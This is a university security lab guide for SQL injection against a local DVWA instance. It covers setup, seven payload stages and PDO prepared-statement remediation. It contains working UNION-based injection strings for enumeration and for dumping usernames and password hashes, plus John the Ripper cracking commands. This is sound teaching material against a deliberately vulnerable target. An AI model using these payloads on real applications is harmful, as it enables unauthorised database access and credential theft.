

# Lab 3: SQL Injection (SQLi) with DVWA

## 1. Overview & Context

- **Institution**: University of Technology, Jamaica — School of Computing & Information Technology (SCIT)
- **Module**: Computer Security — Lab 3: SQL Injection
- **Estimated Time**: 1.5–2 Hours (including DVWA staging)
- **Difficulty**: Beginner–Intermediate
- **Target Application**: Damn Vulnerable Web Application (DVWA) — **Security Level: Low**
- **Source Handout**: [`Lab 3 - SQL Injection with DVWA.docx.pdf`](file:///d:/Dev/Projects/Computer-Security-Labs/Labs/Lab3/Lab%203%20-%20SQL%20Injection%20with%20DVWA.docx.pdf)
- **Deliverables Folder**: [`Labs/Lab3/Deliverables/`](file:///d:/Dev/Projects/Computer-Security-Labs/Labs/Lab3/Deliverables/)

> [!CAUTION]
> **Ethical Boundary**: SQL Injection testing against any web application without explicit written authorization is illegal. Perform every step of this lab **strictly** against your isolated local DVWA instance inside VirtualBox.

**SQL Injection (SQLi)** occurs when untrusted user input is concatenated directly into a dynamic SQL statement without parameterization or validation, allowing an attacker to break out of the **data context** and inject arbitrary **SQL syntax**. In this lab, you will deploy and configure DVWA, exploit an in-band SQLi vulnerability across 7 progressive stages—moving from basic parameter tampering and boolean tautologies to `UNION SELECT` fingerprinting, `information_schema` enumeration, and full credential hash exfiltration—and implement secure PHP remediation using **PDO Prepared Statements**.

---

## 2. Core SQL Injection Concepts & Mechanics

| Concept / Syntax | Example | Role in SQL Injection & Defense |
| :--- | :--- | :--- |
| **String Breakout (`'`)** | `%' ...` | Closes the developer's opening single quote in `WHERE user_id = '$id'`, allowing subsequent characters to be parsed as SQL operators/keywords instead of literal text. |
| **Boolean Tautology** | `OR '0'='0'` / `OR '1'='1'` | Evaluates to `TRUE` for every row in the target table (`FALSE OR TRUE` $\rightarrow$ `TRUE`), bypassing `WHERE` filtering or login checks to return all records. |
| **Row Suppression** | `AND 1=0` | Evaluates to `FALSE` for every row in the original query so **only** the appended `UNION SELECT` payload rows are displayed cleanly. |
| **`UNION SELECT`** | `UNION SELECT null, version()` | Appends the result set of an attacker-supplied `SELECT` query onto the original query. Requires **identical column count** and **compatible data types** across both `SELECT` statements. |
| **SQL Comment (`#` vs `-- `)** | `#` or `-- ` *(with space)* | Truncates/ignores the remainder of the developer's SQL string (such as trailing quotes `';` or `AND password = '...'`). In MySQL/MariaDB, `#` requires no space, whereas `-- ` **must** be followed by at least one whitespace character. |
| **`information_schema`** | `information_schema.tables` | Built-in ANSI/MySQL read-only metadata catalog listing every database (`schemata`), table (`tables`), and column (`columns`) accessible to the DB user. |
| **Hex Newline (`0x0a`)** | `concat(user,0x0a,password)` | Hexadecimal literal for ASCII Line Feed (`\n`, decimal `10`). Used inside `concat()` to pack multiple columns into a single output column with clean line breaks inside HTML `<pre>` blocks. |
| **Parameterized Queries** | `$pdo->prepare('... = :id')` | Precompiles the SQL execution plan on the database server **before** binding user input strictly as non-executable scalar data—eliminating SQLi completely. |

---

## 3. Environment Setup & Tool Configuration

### 3.1 Host Storage, Memory & Network Rules (Matching Lab 2 Setup)

1. **Keep VMs on `D:\` (Not `C:\`)**: Continue using `D:\VMs\VirtualBox` as your VirtualBox Default Machine Folder.
2. **Free Host RAM Before Booting VirtualBox**:
   - Quit **Docker Desktop** from the Windows system tray and run `wsl --shutdown` in PowerShell before launching VirtualBox so Hyper-V/WSL2 does not starve your VMs of memory.
3. **VirtualBox Network (`LabNet` — `192.168.100.0/24`)**:
   - Reuse the **`LabNet`** NAT Network created in Lab 2 (**File → Tools → Network Manager → NAT Networks → `LabNet`**, `192.168.100.0/24`, DHCP enabled).
   - Confirm your **Kali Linux VM** (`kali-linux-2026.3`) has **Adapter 1** attached to **`NAT Network` (`LabNet`)**.

### 3.2 Complete Tool Checklist for Lab 3

| Tool / Component | Where It Runs | Purpose in Lab 3 | Setup / Verification |
| :--- | :--- | :--- | :--- |
| **Oracle VirtualBox** | Windows Host | Hosts your isolated Kali Linux virtual machine on `LabNet`. | Installed at `C:\Program Files\Oracle\VirtualBox\` |
| **DVWA (Web + PHP + MariaDB)** | Kali Linux VM | Vulnerable PHP/MySQL target hosting `/vulnerabilities/sqli/` at `http://127.0.0.1:42001/`. | `sudo apt install -y dvwa && sudo dvwa-start` |
| **Firefox ESR + DevTools (`F12`)** | Kali Linux VM | Submits SQLi payloads, inspects URL-encoded `GET` parameters (`?id=...`), and verifies session cookies (`security=low`). | Pre-installed on Kali (`firefox-esr`) |
| **John the Ripper (`john`)** *(Bonus)* | Kali Linux VM | Cracks the 5 unsalted MD5 password hashes dumped in Step 7 using `rockyou.txt`. | Already configured in Lab 2 (`--format=raw-md5`) |

---

### 3.3 Deploying DVWA on Kali Linux (Single-VM Setup)

Kali Linux packages DVWA natively with a self-contained Nginx + PHP-FPM + MariaDB launcher, so you only need to boot your **Kali Linux VM** (`kali-linux-2026.3-virtualbox-amd64`, 2–3 GB RAM) while leaving your Windows 10 and Ubuntu VMs powered off:

```bash
# 1. Install the official Kali DVWA package and browser
sudo apt update
sudo apt install -y dvwa firefox-esr

# 2. Launch DVWA (starts MariaDB, PHP-FPM, Nginx, and opens http://127.0.0.1:42001/)
sudo dvwa-start
```
- **Target URL**: `http://127.0.0.1:42001/`
- **Stop Command (when finished with the lab)**: `sudo dvwa-stop`

---

### 3.4 First-Time DVWA Database Initialization & Security Configuration

Before running **any** SQLi payload, complete these four setup steps in Kali's **Firefox** browser:

1. **Initialize the Database (`setup.php`)**:
   - Open `http://127.0.0.1:42001/` (or `http://127.0.0.1:42001/setup.php`).
   - Scroll to the bottom and click **Create / Reset Database**.
   - Wait for the confirmation message `"Database has been created."` and redirect to `login.php`.
2. **Log In with Default Credentials**:
   - **Username**: `admin`
   - **Password**: `password`
   - Click **Login**.
3. **Set Security Level to `Low` (Critical!)**:
   - Click **DVWA Security** in the left sidebar.
   - Change the **Script Security** dropdown from `impossible` / `high` to **`Low`** and click **Submit**.
   - Ensure **PHPIDS** (PHP-Intrusion Detection System) says **`PHPIDS is currently: disabled`**.
   - Verify the bottom-left info panel reads **`Security Level: low`**.
   - *(Note: If you log out or restart your browser session later, always re-check **DVWA Security** to confirm it did not revert to `impossible`!)*
   - 📸 **Screenshot Checkpoint 0 (`00_dvwa_security_low.png`)**: Capture the **DVWA Security** screen confirming `Security Level is currently: low`.
4. **Take a VM Snapshot**:
   - In VirtualBox, click **Machine → Take Snapshot…** and name it `Pre-Lab3-DVWA-Ready` so you have a clean restore point.

---

## 4. Attack Architecture & Exploitation Workflow



---

## 5. Step-by-Step Completion Guide

> [!WARNING]
> **Handout Errata & Modern DVWA Notes (Read Before Starting)**:
> 1. **Page 4 (Step 2) Extra Single-Quote Bug**: The handout prose instructs you to type `%' or '1'='1'`, which has **three** single quotes after `%` and produces invalid SQL when placed inside DVWA's `'$id'` template:
>    `SELECT first_name, last_name FROM users WHERE user_id = '%' or '1'='1'';` $\rightarrow$ **`You have an error in your SQL syntax... near '''`**!
>    Look closely at the handout's own Page 4 screenshot: the author actually entered **`%' or '0'='0`** (omitting the final quote so DVWA's own closing `'` completes `'0'`). Use **`%' or '0'='0`**, **`%' or '1'='1`** *(no trailing quote)*, or **`%' or '1'='1' #`** *(commenting out DVWA's trailing quote)*.
> 2. **Page 1 Login Bypass Quote Nuance**: On Page 1, the introductory example writes `Karen;--`. Against `$query = "... WHERE username = '" . $_POST['username'] . "'"`, an attacker must include a closing single quote first (e.g., `Karen' #` or `Karen' -- ` with a trailing space after `--` in MySQL) to escape the string literal.
> 3. **Page 5 (Step 4) Omitted Code Snippet**: Page 5 omits the text box before the screenshot; the exact payload shown inside the screenshot's red output is `%' or 0=0 union select null, user() #`.
> 4. **Expected Output Differences vs. Handout Screenshots**: The handout screenshots were captured on an older **Metasploitable 2** VM (`MySQL 5.0.51a-3ubuntu5`, connected as `root@localhost`, sharing MySQL with TikiWiki's `users_grouppermissions` tables). On modern DVWA (Kali/Ubuntu/Docker), you will see your **MariaDB `10.x` / `11.x` version** in Step 3, **`dvwa@localhost`** (or `app@localhost`) in Step 4, and **`USER_PRIVILEGES` + `users`** (plus `USER_STATISTICS`) in Step 6—this is 100% expected and proves modern DVWA follows DB least privilege!

---

### Step 1: Basic Injection & Injectable URL Parameter Discovery

1. In the left navigation bar of DVWA, click **SQL Injection**.
2. In the **User ID** text box, enter `1` and click **Submit**.
   - **Expected Output**:
     ```text
     ID: 1
     First name: admin
     Surname: admin
     ```
3. **Understand the Vulnerable Backend Query** (`vulnerabilities/sqli/source/low.php`):
   ```php
   $id = $_REQUEST['id'];
   $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
   ```
   Notice two critical facts:
   - `$id` is wrapped in single quotes (`'$id'`) with **zero validation or parameterization**.
   - The query selects **exact two columns**: `first_name` (column 1) and `last_name` (column 2).
4. **Inspect & Modify the URL Query String**:
   Look at Firefox's address bar after submitting `1`:
   ```text
   http://<DVWA_HOST>/vulnerabilities/sqli/?id=1&Submit=Submit#
   ```
   Because the HTML form uses `method="GET"`, the `id` parameter is exposed directly in the URL! Change `id=1` in the address bar to `id=2`, press `Enter`, then repeat for `id=3`, `id=4`, and `id=5`:
   - `id=2` $\rightarrow$ `First name: Gordon` | `Surname: Brown`
   - `id=3` $\rightarrow$ `First name: Hack` | `Surname: Me`
   - `id=4` $\rightarrow$ `First name: Pablo` | `Surname: Picasso`
   - `id=5` $\rightarrow$ `First name: Bob` | `Surname: Smith`
5. **Confirm SQL Quote Sensitivity (Quick Sanity Test)**:
   Enter a single quote `'` in **User ID** and click **Submit**. You will receive an unhandled database error (`You have an error in your SQL syntax...`), confirming that raw single quotes break directly out of the SQL string literal!
   - 📸 **Screenshot Checkpoint 1 (`01_step1_basic_parameter_discovery.png`)**: Capture `ID: 1` (and/or URL modification `?id=2`) returning user `First name` and `Surname`.

---

### Step 2: True Always Equals True (Boolean Tautology Bypass)

1. **Objective**: Force the `WHERE` clause to evaluate to `TRUE` for **every row** in the `users` table so all user records dump in a single request.
2. In the **User ID** field, enter **one** of the following (no trailing single quote unless followed by `#`):
   ```sql
   %' or '0'='0
   ```
   *(Or equivalently: `%' or '1'='1` — see Handout Erratum #1 above.)*
3. Click **Submit**.
4. **How the Resulting SQL Executes**:
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '%' or '0'='0';
   ```
   - `user_id = '%'` compares user IDs against `'%'` (`FALSE`).
   - `'0'='0'` (or `'1'='1'`) is a **tautology**—a logical condition that is *always* `TRUE`.
   - Because `FALSE OR TRUE` evaluates to `TRUE` for every row in `users`, MySQL returns all 5 accounts (`admin`, `Gordon Brown`, `Hack Me`, `Pablo Picasso`, `Bob Smith`) at once!
   - 📸 **Screenshot Checkpoint 2 (`02_step2_tautology_all_users.png`)**: Capture all 5 users returned by the tautology payload, with the URL query string visible.

---

### Step 3: Fingerprint the Database Version (`UNION SELECT`)

1. **Objective**: Append a second `SELECT` query via `UNION` to extract the backend database server version (`version()`).
2. In the **User ID** field, copy and paste:
   ```sql
   %' or 0=0 union select null, version() #
   ```
3. Click **Submit**.
4. **How the Resulting SQL Executes**:
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '%' or 0=0 union select null, version() #';
   ```
   - **`union select null, version()`**: Combines the 2 columns of the original query (`first_name`, `last_name`) with 2 attacker-chosen columns:
     - Column 1 (`First name:`): `null` (acts as a universal type-compatible placeholder).
     - Column 2 (`Surname:`): `version()` (built-in MySQL/MariaDB function returning the engine release string).
   - **`#` (Hash Comment)**: Comments out the developer's trailing `';` at the end of the PHP string so MySQL does not throw a syntax error on the leftover quote.
5. **Expected Output**:
   Scroll to the **6th record** at the bottom of the red output box:
   ```text
   ID: %' or 0=0 union select null, version() #
   First name:
   Surname: 10.11.x-MariaDB-...   (or 5.0.51a-3ubuntu5 on Metasploitable 2)
   ```
   - 📸 **Screenshot Checkpoint 3 (`03_step3_db_version.png`)**: Capture the output showing the database version in the bottom `Surname:` line.

---

### Step 4: Display the Active Database User (`user()`)

1. **Objective**: Identify which database account and host privilege context is executing PHP's SQL queries.
2. In the **User ID** field, copy and paste:
   ```sql
   %' or 0=0 union select null, user() #
   ```
3. Click **Submit**.
4. **How the Resulting SQL Executes**:
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '%' or 0=0 union select null, user() #';
   ```
   - `user()` returns `<db_username>@<client_host>` for the active MySQL connection.
5. **Expected Output**:
   Look at the **6th record** at the bottom of the output:
   ```text
   ID: %' or 0=0 union select null, user() #
   First name:
   Surname: dvwa@localhost        (or app@localhost / root@localhost)
   ```
   > [!TIP]
   > **Security Observation for Your Report**: If `user()` returns `root@localhost` (as seen in the handout's legacy VM), the web app violates **Least Privilege**—an attacker could read `/etc/passwd` via `LOAD_FILE()`, write PHP web shells via `INTO OUTFILE`, or drop other databases! Running as a dedicated `dvwa@localhost` account confines access to the `dvwa` database only.
   - 📸 **Screenshot Checkpoint 4 (`04_step4_db_user.png`)**: Capture the output showing `Surname: dvwa@localhost` (or `root@localhost`) at the bottom.

---

### Step 5: Display All Tables in `information_schema`

1. **Objective**: Query MySQL's internal metadata dictionary (`information_schema.tables`) to list every table across accessible schemas while hiding the 5 default user rows.
2. In the **User ID** field, copy and paste:
   ```sql
   %' and 1=0 union select null, table_name from information_schema.tables #
   ```
3. Click **Submit**.
4. **How the Resulting SQL Executes**:
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '%' and 1=0 union select null, table_name from information_schema.tables #';
   ```
   - **Why `and 1=0` Instead of `or 0=0`?** `1=0` is always `FALSE`, so `WHERE user_id = '%' and 1=0` returns **zero rows** from `users`. That suppresses the 5 noisy user records so *only* our `information_schema.tables` results fill the screen!
   - *(Troubleshooting Note: If you run DVWA against MySQL 8.0 instead of MariaDB and encounter `Illegal mix of collations for operation 'UNION'`, use `%' and 1=0 union select null, convert(table_name using utf8mb4) from information_schema.tables #`.)*
5. **Expected Output**:
   Dozens of system metadata tables (`CHARACTER_SETS`, `COLLATIONS`, `COLUMNS`, `PROFILING`, `ROUTINES`, ...) plus DVWA's application tables (`guestbook` and `users` at the bottom).
   - 📸 **Screenshot Checkpoint 5 (`05_step5_information_schema_tables.png`)**: Capture the `information_schema.tables` dump.

---

### Step 6: Filter User-Related Tables in `information_schema`

1. **Objective**: Narrow down hundreds of metadata tables to only tables starting with `user` using a `WHERE ... LIKE 'user%'` filter.
2. In the **User ID** field, copy and paste:
   ```sql
   %' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
   ```
3. Click **Submit**.
4. **Expected Output**:
   - Returns tables matching `user%`, notably **`USER_PRIVILEGES`** (and `USER_STATISTICS` on MariaDB) and our high-value application table: **`users`**!
5. **Optional Recon Check — Enumerate Column Names Inside `users`**:
   Before Step 7, how does an attacker know the exact column names (`first_name`, `last_name`, `user`, `password`) inside `users`? Test this quick `information_schema.columns` payload:
   ```sql
   %' and 1=0 union select null, column_name from information_schema.columns where table_name='users' #
   ```
   - Returns: `user_id`, `first_name`, `last_name`, `user`, `password`, `avatar`, `last_login`, `failed_login`!
   - 📸 **Screenshot Checkpoint 6 (`06_step6_filtered_user_tables.png`)**: Capture the filtered `table_name like 'user%'` output highlighting `users`.

---

### Step 7: Dump Column Contents (Usernames & Password Hashes)

1. **Objective**: Exfiltrate all usernames, full names, and password hashes from the `users` table in a single formatted query.
2. In the **User ID** field, copy and paste:
   ```sql
   %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
   ```
3. Click **Submit**.
4. **How the Resulting SQL Executes**:
   - Because the original query only has **2 columns** (`first_name`, `last_name`), we cannot select 4 separate columns (`SELECT first_name, last_name, user, password`) without breaking `UNION`'s column-count rule.
   - **`concat(...)`** packs all 4 columns into the single `Surname:` output slot!
   - **`0x0a`** is the hexadecimal representation of the ASCII newline character (`\n`). Because DVWA renders results inside HTML `<pre>...</pre>` tags, `0x0a` prints each field cleanly on its own line!
5. **Expected Extracted Credentials Table**:

   | First Name | Last Name | Username (`user`) | Extracted MD5 Password Hash (`password`) | Plaintext *(Bonus Step 8)* |
   | :--- | :--- | :--- | :--- | :--- |
   | `admin` | `admin` | `admin` | `5f4dcc3b5aa765d61d8327deb882cf99` | `password` |
   | `Gordon` | `Brown` | `gordonb` | `e99a18c428cb38d5f260853678922e03` | `abc123` |
   | `Hack` | `Me` | `1337` | `8d3533d75ae2c3966d7e0d4fcc69216b` | `charley` |
   | `Pablo` | `Picasso` | `pablo` | `0d107d09f5bbe40cade3de5c71e9e9b7` | `letmein` |
   | `Bob` | `Smith` | `smithy` | `5f4dcc3b5aa765d61d8327deb882cf99` | `password` |

   - 📸 **Screenshot Checkpoint 7 (`07_step7_dumped_credentials_hashes.png`)**: Capture the full `users` dump showing usernames and 32-character hexadecimal MD5 hashes!

---

### Bonus Step 8: Crack the Extracted MD5 Hashes & Inspect DVWA Source Code

1. **Crack the Dumped Hashes with John the Ripper (Connecting Lab 3 $\rightarrow$ Lab 2)**:
   Notice that `admin` and `smithy` have the **exact same hash** (`5f4dcc3b5aa765d61d8327deb882cf99`) because DVWA stores **unsalted MD5** hashes! Open a Kali terminal and crack all 5 hashes in under 1 second:
   ```bash
   mkdir -p ~/lab3 && cd ~/lab3
   cat << 'EOF' > dvwa_hashes.txt
   admin:5f4dcc3b5aa765d61d8327deb882cf99
   gordonb:e99a18c428cb38d5f260853678922e03
   1337:8d3533d75ae2c3966d7e0d4fcc69216b
   pablo:0d107d09f5bbe40cade3de5c71e9e9b7
   smithy:5f4dcc3b5aa765d61d8327deb882cf99
   EOF

   john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt dvwa_hashes.txt
   john --show --format=raw-md5 dvwa_hashes.txt
   ```
2. **Compare Vulnerable vs. Secure PHP Inside DVWA**:
   - At the bottom-right corner of the DVWA **SQL Injection** page, click **View Source**, then click **Compare** in the popup window to inspect **Low** vs. **Impossible** security levels side-by-side!

---

## 6. SQL Injection Prevention & Secure PHP Remediation

### 6.1 Vulnerable PHP (`Low` Security) vs. Secure Parameterized PHP (`Impossible` Pattern)

#### ❌ Vulnerable Code (DVWA `low.php` — String Concatenation)
```php
<?php
// VULNERABLE: Raw user input is interpolated directly into the SQL command string
$id = $_REQUEST['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query);
?>
```

#### ✅ Remediated Code (PHP PDO Prepared Statements + Input Validation)
```php
<?php
// SECURE DEFENSE-IN-DEPTH:
// 1. Strict allowlist input validation (user_id must be a positive integer)
$rawId = $_GET['id'] ?? '';
if (!ctype_digit((string)$rawId)) {
    http_response_code(400);
    exit('Invalid User ID: numeric value required.');
}
$id = (int)$rawId;

// 2. PDO connection with emulated prepares DISABLED so true server-side parameterization is enforced
$pdo = new PDO(
    'mysql:host=127.0.0.1;dbname=dvwa;charset=utf8mb4',
    'dvwa_readonly', // 3. Least-privilege DB account (SELECT only, never root)
    $dbPassword,
    [
        PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
        PDO::ATTR_EMULATE_PREPARES   => false,
    ]
);

// 4. Precompiled Prepared Statement + Bound Integer Parameter
$stmt = $pdo->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id LIMIT 1');
$stmt->bindValue(':id', $id, PDO::PARAM_INT);
$stmt->execute();

$row = $stmt->fetch();
if ($row) {
    echo htmlspecialchars("First name: {$row['first_name']} | Surname: {$row['last_name']}", ENT_QUOTES, 'UTF-8');
}
?>
```

### 6.2 Six Layered Countermeasures Summary (From Handout Page 2)

1. **Parameterized Queries (Prepared Statements)** *(Primary Fix)*: Separates SQL code structure from user data at the database protocol level (`COM_STMT_PREPARE` + `COM_STMT_EXECUTE`). Even if `%' or 0=0 union select...` is passed, the DB treats the entire string as a literal value, never SQL syntax.
2. **Strict Input Validation (Allowlisting)**: Enforce expected types, lengths, and formats before querying (e.g., `ctype_digit()` / `filter_var($id, FILTER_VALIDATE_INT)` for numeric IDs).
3. **Stored Procedures**: Encapsulate predefined SQL queries inside the DBMS (safe **only** when the stored procedure itself uses bound parameters rather than internal dynamic `EXEC`/`CONCAT` SQL).
4. **Context-Aware Character Escaping**: Functions like `mysqli_real_escape_string()` escape quotes (`'`, `"`), though escaping alone fails on unquoted numeric contexts (`WHERE user_id = $id`)—making Prepared Statements strictly superior.
5. **Principle of Least Privilege**: Connect the web app using a restricted account (e.g., `SELECT`/`INSERT`/`UPDATE` on `dvwa.*` only), **never `root@localhost`**, preventing `FILE` access (`LOAD_FILE` / `INTO OUTFILE`) and cross-database tampering.
6. **Web Application Firewall (WAF)**: Deploy ModSecurity (OWASP Core Rule Set) or Cloudflare/AWS WAF (or enable DVWA's built-in **PHPIDS** to test detection!) as a virtual patching and alerting layer.

---

## 7. Required Deliverables & Analysis Reference Answers

Save your screenshots and lab log in [`Labs/Lab3/Deliverables/`](file:///d:/Dev/Projects/Computer-Security-Labs/Labs/Lab3/Deliverables/) using [`lab3_notes_template.md`](file:///d:/Dev/Projects/Computer-Security-Labs/Labs/Lab3/Deliverables/lab3_notes_template.md).

### Key Report / Discussion Questions & Reference Answers

1. **What is the role of `#` and `-- ` (double-dash) in SQL injection payloads?**
   - **Answer**: Both `#` and `-- ` are single-line SQL comment delimiters in MySQL/MariaDB. When injected at the end of an attacker's payload, they instruct the SQL parser to ignore the rest of the developer's original query on that line—neutralizing leftover closing quotes (`';`) that would cause syntax errors, or bypassing trailing security checks such as `AND password = '...'` in login forms. *(In MySQL, `-- ` requires a trailing space so it isn't confused with subtraction `--1`, whereas `#` works immediately without a trailing space; in URLs, `#` must either be submitted via the form so the browser URL-encodes it as `%23`, or written manually as `%23` if typed directly into the URL bar.)*
2. **Why must every `UNION SELECT` payload in Steps 3–7 start with `null, <target_expression>` (two columns)?**
   - **Answer**: SQL's `UNION` operator merges the rows of two `SELECT` queries into one table result set, which requires **both queries to have the exact same number of columns** and **compatible data types** per column position. Because DVWA's original query (`SELECT first_name, last_name FROM users ...`) selects **2 columns**, selecting 1 or 3 columns throws a SQL error (`The used SELECT statements have a different number of columns`). Using `null` in column 1 satisfies the 2-column count while remaining universally type-compatible with any SQL column type, and `concat(...)` in Step 7 packs 4 columns (`first_name`, `last_name`, `user`, `password`) into column 2 (`Surname`).
3. **Why did Steps 3–4 use `%' or 0=0`, whereas Steps 5–7 switched to `%' and 1=0`?**
   - **Answer**: `%' or 0=0` evaluates to `TRUE`, returning all 5 rows of `users` *plus* the 1 appended row (`version()` or `user()`). In Steps 5–7, querying `information_schema.tables` returns dozens of rows; switching to `%' and 1=0` forces the left-hand `SELECT` condition to `FALSE` (`0 rows`), cleanly suppressing the original `users` records so only the injected enumeration/credential results appear.
4. **What secondary vulnerability did Step 7 expose in how DVWA stores passwords, and how should it be fixed?**
   - **Answer**: Step 7 revealed 32-character hexadecimal **unsalted MD5** password hashes, where `admin` and `smithy` share the identical digest `5f4dcc3b5aa765d61d8327deb882cf99` (proving lack of per-user salting and instant susceptibility to rainbow tables / `rockyou.txt` dictionary attacks). Passwords in PHP must instead be hashed with **`password_hash($password, PASSWORD_ARGON2ID)`** (or `PASSWORD_BCRYPT`), which automatically generates a unique cryptographic salt per user and applies memory-hard/iterated key stretching.
